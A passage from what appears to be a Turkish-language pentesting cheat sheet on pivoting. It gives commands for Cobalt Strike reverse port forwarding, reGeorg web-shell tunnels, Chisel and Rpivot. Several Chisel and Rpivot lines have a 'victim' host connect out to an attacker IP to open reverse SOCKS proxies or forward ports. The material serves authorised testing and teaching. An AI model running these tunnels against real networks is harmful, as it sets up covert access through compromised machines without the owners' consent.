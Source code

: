 - Beacon'ın ters port yönlendirmesi, **bireysel makineler arasında iletim için değil, Team Server'a trafik tünellemek için tasarlanmıştır**.
- Trafik, **Beacon'ın C2 trafiği içinde tünellenir**, P2P bağlantıları dahil.
- Yüksek portlarda ters port yönlendirmeleri oluşturmak için **yönetici ayrıcalıkları gerekmez**.

### rPort2Port local

{% hint style="warning" %}
Bu durumda, **port beacon ana bilgisayarında açılır**, Team Server'da değil ve **trafik Cobalt Strike istemcisine gönderilir** (Team Server'a değil) ve oradan belirtilen host:port'a iletilir.
{% endhint %}
```
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```
## reGeorg

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Bir web dosyası tüneli yüklemeniz gerekiyor: ashx|aspx|js|jsp|php|php|jsp
```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```
## Chisel

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) adresinin sürümler sayfasından indirebilirsiniz.\
**İstemci ve sunucu için aynı sürümü kullanmalısınız.**

### socks
```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```
### Port yönlendirme
```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```
## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

Ters tünel. Tünel, kurban tarafından başlatılır.\
127.0.0.1:1080 adresinde bir socks4 proxy oluşturulur.
```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```
